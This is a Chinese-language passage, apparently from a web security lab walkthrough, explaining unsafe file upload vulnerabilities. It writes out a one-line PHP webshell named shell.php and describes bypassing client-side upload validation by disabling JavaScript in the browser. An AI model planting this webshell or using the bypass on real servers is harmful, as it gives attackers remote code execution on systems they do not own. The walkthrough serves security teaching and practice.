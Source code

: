 ### 不安全上传漏洞 (Unsafe Fileupload)

不安全上传漏洞服务器对上传的文件过滤不足导致一些恶意文件被上传到服务器。最经典的做法就是上传一个木马文件到服务器, 形成 webshell;

#### client check

写一个一句话木马 shell.php:

```php
<?php  @eval($_POST['shell']); ?>
```

查看网页的源代码, 可以发现校验是在浏览器上的, 前文已经强调过这么做是完全没用的:

![4-1.png](4-1.png)

直接在浏览器的控制台中按 F1, 然后禁用 javascript 然后重新上传:

![4-2.png](4-2.png)
